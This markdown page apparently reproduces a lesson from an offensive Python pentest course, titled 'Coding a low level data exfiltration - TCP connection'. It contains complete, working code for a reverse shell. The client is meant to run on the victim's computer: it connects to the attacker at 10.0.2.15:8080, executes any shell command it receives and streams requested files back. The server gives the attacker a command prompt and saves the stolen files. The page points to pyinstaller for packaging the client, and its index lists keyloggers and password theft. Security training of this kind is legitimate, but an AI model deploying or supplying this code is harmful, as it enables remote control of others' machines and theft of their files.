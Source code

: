 ```yaml
---
title: Coding a low level data exfiltration - TCP connection
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - python
  - python pentesting
  - scripting
  - reverse shell
---
```


# Coding a low level data exfiltration  - TCP connection

From course: [Python For Offensive PenTest: A Complete Practical Course](https://www.udemy.com/course/python-for-offensive-security-practical-course/).

??? abstract "General index of the course"
	- Gaining persistence shells (TCP + HTTP):
		- [Coding a TCP connection and a reverse shell](coding-a-tcp-reverse-shell.md).
		- [Coding a low level data exfiltration  - TCP connection](coding-a-low-level-data-exfiltration-tcp.md).
		- [Coding an http reverse shell](coding-an-http-reverse-shell.md).
		- [Coding a data exfiltration script for a http shell](coding-a-data-exfiltration-script-http-shell.md).
		- [Tunning the connection attempts](tunning-the-connection-attemps.md).
		- [Including cd command into TCP reverse shell](including-cd-command-into-tcp-reverse-shell.md).
	- Advanced scriptable shells:
		- [Using a Dynamic DNS instead of your bared attacker public ip](ddns-aware-shell.md).
		- [Making your binary persistent](making-your-binary-persistent.md). 
		- [Making a screenshot](making-a-screenshot.md). 
		- [Coding a reverse shell that searches files](coding-a-reverse-shell-that-searches-files.md). 
	- Techniques for bypassing filters: 
		- [Coding a reverse shell that scans ports](coding-a-reverse-shell-that-scans-ports.md). 
		- [Hickjack the Internet Explorer process to bypass an host-based firewall](hickjack-internet-explorer-process-to-bypass-an-host-based-firewall.md).
		- [Bypassing Next Generation Firewalls](bypassing-next-generation-firewalls.md).
		- [Bypassing IPS with handmade XOR Encryption](bypassing-ips-with-handmade-xor-encryption.md).
	- Malware and crytography:
		- [TCP reverse shell with AES encryption](tcp-reverse-shell-with-aes-encryption.md).
		- [TCP reverse shell with RSA encryption](tcp-reverse-shell-with-rsa-encryption.md).
		- [TCP reverse shell with hybrid encryption AES + RSA](tcp-reverse-shell-with-hybrid-encryption-rsa-aes.md).
	- Password Hickjacking:
		- [Simple keylogger in python](python-keylogger.md).
		- [Hijacking Keepass Password Manager](hijacking-keepass.md).
		- [Dumping saved passwords from Google Chrome](dumping-chrome-saved-passwords.md).
		- [Man in the browser attack](man-in-the-browser-attack.md).
		- [DNS Poisoning](dns-poisoning.md).
	- Privilege escalation:
		- [Weak service file permission](privilege-escalation.md).




## Client

To be run on victim's computer.

```python
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2
import socket
import subprocess
import os


# In the transfer function, we first check if the file exists in the first place, if not we will notify the attacker
# otherwise, we will create a loop where each time we iterate we will read 1 KB of the file and send it, since the
# server has no idea about the end of the file we add a tag called 'DONE' to address this issue, finally we close the file
def transfer(s, path):
    if os.path.exists(path):
        f = open(path, 'rb')
        packet = f.read(1024)
        while len(packet) > 0:
            s.send(packet)
            packet = f.read(1024)
        s.send('DONE'.encode())
    else:
        s.send('File not found'.encode())
def connecting():
    s = socket.socket()
    s.connect(("10.0.2.15", 8080))

    while True:
        command = s.recv(1024)

        if 'terminate' in command.decode():
            s.close()
            break


# if we received grab keyword from the attacker, then this is an indicator for file transfer operation, hence we will split the received commands into two parts, the second part which we intersted in contains the file path, so we will store it into a varaible called path and pass it to transfer function
         
# Remember the Formula is  grab*<File Path>
# Absolute path example:  grab*C:\Users\Hussam\Desktop\photo.jpeg
        elif 'grab' in command.decode():
            grab, path = command.decode().split("*")
            try:
                transfer(s, path)
            except:
                pass
        else:
            CMD = subprocess.Popen(command.decode(), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE,stdin=subprocess.PIPE)
            s.send(CMD.stderr.read())
            s.send(CMD.stdout.read())
def main():
    connecting()
main()

```

### Server 

To be run on attacker's computer.

```python
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2
import os
import socket

def transfer(conn, command):
    conn.send(command.encode())
    grab, path = command.split("*")
    f = open('/home/kali/'+path, 'wb')
    while True:
        bits = conn.recv(2048)
        if bits.endswith('DONE'.encode()):
            f.write(bits[:-4]) # Write those last received bits without the word 'DONE' 
            f.close()
            print ('[+] Transfer completed ')
            break
        if 'File not found'.encode() in bits:
            print ('[-] Unable to find out the file')
            break
        f.write(bits)
def connecting():
    s = socket.socket()
    s.bind(("10.0.2.15", 8080))
    s.listen(1)
    print('[+] Listening for income TCP connection on port 8080')
    conn, addr = s.accept()
    print('[+]We got a connection from', addr)

    while True:
        command = input("Shell> ")
        if 'terminate' in command:
            conn.send('terminate'.encode())
            break
        elif 'grab' in command:
            transfer(conn, command)
        else:
            conn.send(command.encode())
            print(conn.recv(1024).decode())
def main():
    connecting()
main()

```

## Using pyinstaller

See [pyinstaller](../pyinstaller.md).